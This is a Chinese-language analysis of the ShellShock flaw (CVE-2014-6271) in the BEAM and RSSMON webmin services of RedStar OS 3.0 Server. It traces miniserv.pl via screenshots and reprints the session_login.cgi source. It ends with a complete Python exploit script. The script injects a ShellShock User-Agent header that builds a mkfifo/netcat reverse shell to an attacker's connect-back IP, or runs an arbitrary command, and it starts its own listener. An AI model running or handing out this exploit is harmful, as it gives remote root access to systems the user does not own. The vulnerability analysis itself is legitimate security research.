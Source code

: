 ## CVE-2014-6271漏洞分析

### 漏洞介绍

Bash4.3以前的版本中存在ShellShock漏洞，由于在解析环境变量的函数定义过程中没有进行适当过滤，导致命令执行漏洞。RedStar OS 3.0 Server的Bash版本受到此漏洞的影响，通过利用该系统默认以root权限运行的BEAM或RSSMON程序，可以进行命令注入或者本地提权攻击 (Local Privilege Escalation)。BEAM和RSSMON都是运行在RedStar系统本地基于webmin的服务程序，使用perl脚本作为服务端，当通过构造带有有效攻击载荷的HTTP请求头请求`session_login.cgi`页面时，服务端程序会将HTTP请求头字段作为环境变量保存，因此触发ShellShock漏洞。

### 漏洞分析

BEAM服务是通过运行目录`/usr/libexec/beam`下的`miniserv.pl`脚本开启的，可以手动进行调试。

![](img/1.PNG)

单步调试，可以看到在589行之前代码主要功能是读取文件`/etc/beam/miniserv.conf`中的配置内容，以及程序的初始化，从589行开始程序进入主循环，准备等待来自客户的新连接。
![](img/2.PNG)

当接收到新的连接请求时运行到第772行，会调用`fork`函数产生一个子进程。

![](img/3.PNG)

子进程运行的代码如下：

![](img/4.PNG)

可以看到在第799行调用了`handle_request`函数会对接收到的请求进行处理，在第1079行查看函数定义：

![](img/5.PNG)

从函数的第2007行开始，对CGI请求进行了处理，并对环境变量进行了初始化。

![](img/6.PNG)

在2073行将web请求的HTTP头中的字段存储在环境变量中。

![](img/7.PNG)

在2164行调用`exec`函数执行CGI，`exec`函数会调用系统bash来执行命令，进而触发ShellShock漏洞。

![](img/8.PNG)

`session_login.cgi`的代码如下：

```
#!/usr/bin/perl
# session_login.cgi
# Display the login form used in session login mode

$pragma_no_cache = 1;
#$ENV{'MINISERV_INTERNAL'} || die "Can only be called by miniserv.pl";
require './web-lib.pl';
require './ui-lib.pl';
&init_config();
&ReadParse();
if ($gconfig{'loginbanner'} && $ENV{'HTTP_COOKIE'} !~ /banner=1/ &&
    !$in{'logout'} && !$in{'failed'} && !$in{'timed_out'}) {
	# Show pre-login HTML page
	print "Set-Cookie: banner=1; path=/\r\n";
	&PrintHeader();
	$url = $in{'page'};
	open(BANNER, $gconfig{'loginbanner'});
	while(<BANNER>) {
		s/LOGINURL/$url/g;
		print;
		}
	close(BANNER);
	return;
	}
$sec = uc($ENV{'HTTPS'}) eq 'ON' ? "; secure" : "";
&get_miniserv_config(\%miniserv);
$sidname = $miniserv{'sidname'} || "sid";
print "Set-Cookie: banner=0; path=/$sec\r\n" if ($gconfig{'loginbanner'});
print "Set-Cookie: $sidname=x; path=/$sec\r\n" if ($in{'logout'});
print "Set-Cookie: testing=1; path=/$sec\r\n";
&ui_print_unbuffered_header(undef, undef, undef, undef, undef, 1, 1, undef,
			    undef, "onLoad='document.forms[0].pass.value = \"\"; document.forms[0].user.focus()'");

if ($tconfig{'inframe'}) {
	# Framed themes lose original page
	$in{'page'} = "/";
	}

print "<center>\n";
if (defined($in{'failed'})) {
	print "<h3>$text{'session_failed'}</h3><p>\n";
	}
elsif ($in{'logout'}) {
	print "<h3>$text{'session_logout'}</h3><p>\n";
	}
elsif ($in{'timed_out'}) {
	print "<h3>",&text('session_timed_out', int($in{'timed_out'}/60)),"</h3><p>\n";
	}
print "$text{'session_prefix'}\n";
print "<form action=$gconfig{'webprefix'}/session_login.cgi method=post>\n";
print "<input type=hidden name=page value='".&html_escape($in{'page'})."'>\n";
print "<table border width=40% class='loginform'>\n";
print "<tr $tb> <td><b>$text{'session_header'}</b></td> </tr>\n";
print "<tr $cb> <td align=center><table cellpadding=3>\n";
if ($gconfig{'realname'}) {
	$host = &get_display_hostname();
	}
else {
	$host = $ENV{'HTTP_HOST'};
	$host =~ s/:\d+//g;
	$host = &html_escape($host);
	}

$imgbanner='/images/ho-2.gif';
print "<tr><td rowspan=4 align=center><img src='$imgbanner' ></td><td colspan=2 align=center>",
      &text($gconfig{'nohostname'} ? 'session_mesg2' : 'session_mesg',
	    "<tt>$host</tt>"),"</td> </tr>\n";
print "<tr> <td><b>$text{'session_user'}</b></td>\n";
print "<td><input name=user size=20 value='".&html_escape($in{'failed'})."'></td> </tr>\n";
print "<tr> <td><b>$text{'session_pass'}</b></td>\n";
print "<td><input name=pass size=20 type=password></td> </tr>\n";
print "<tr> <td colspan=2 align=center nowrap><input type=submit value='$text{'session_login'}'>\n";
print "<input type=reset value='$text{'session_clear'}'><br>\n";
if (!$gconfig{'noremember'}) {
	print "<input type=checkbox name=save value=1> $text{'session_save'}\n";
	}
print "</td> </tr>\n";
print "</table></td></tr></table><p>\n";
print "</form></center>\n";
print "$text{'session_postfix'}\n";

# Output frame-detection Javascript, if theme uses frames
if ($tconfig{'inframe'}) {
	print <<EOF;
<script>
if (window != window.top) {
	window.top.location = window.location;
	}
</script>
EOF
	}

&ui_print_footer();
```

exp的代码如下：

```
#!/usr/bin/env python
# RedStar OS 3.0 Server (BEAM & RSSMON) shellshock exploit
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import subprocess
import requests
import sys
import os

def spawn_shell(cbport):
    subprocess.call('nc -l ' + cbport, shell=True)

def shellshock(soft,ip,port,cbip,cbport):
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    if soft == "beam":
        user_agent = {'User-agent': '() { :; }; /bin/bash -c "rm /tmp/.f;mkfifo /tmp/.f;cat /tmp/.f|/bin/sh -i 2>&1|nc '+cbip+' '+cbport+' >/tmp/.f"'}
    else:
        shellstring = '() { :; }; %s' % (cbip)
        user_agent = {'User-agent': shellstring}
    print "[-] exploiting shellshock CVE-2014-6271..."
    myreq = requests.get("http://"+ip+":"+port+"/session_login.cgi", headers = user_agent, verify=False)

if __name__ == "__main__":
    print "[+] RedStar OS 3.0 Server (BEAM & RSSMON) shellshock exploit"
    if len(sys.argv) < 5:
        print "[-] Use with <beam> <host> <port> <connectback ip> <connectback port>"
        print "[-] Or with <rssmon> <host> <port> <cmd>"
        sys.exit()
    if(sys.argv[1]=="beam"):
        shellshock(sys.argv[1],sys.argv[2],sys.argv[3],sys.argv[4],sys.argv[5])
    else:
        shellshock(sys.argv[1],sys.argv[2],sys.argv[3],sys.argv[4],0)
```